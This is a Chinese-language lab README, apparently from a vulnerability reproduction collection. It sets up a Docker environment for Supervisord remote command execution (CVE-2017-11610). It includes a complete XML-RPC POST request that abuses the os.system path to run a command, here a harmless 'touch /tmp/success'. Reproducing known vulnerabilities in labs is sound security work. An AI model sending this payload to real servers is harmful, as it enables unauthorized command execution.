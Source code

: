 # Supervisord 远程命令执行漏洞（CVE-2017-11610）

参考链接（可以详细看一下第一篇文章）： 

 - https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html
 - https://blogs.securiteam.com/index.php/archives/3348
 - https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b

## 运行环境

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:9001`即可查看Supervisord的页面。

## 漏洞测试

直接执行任意命令：

```
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```

![](01.png)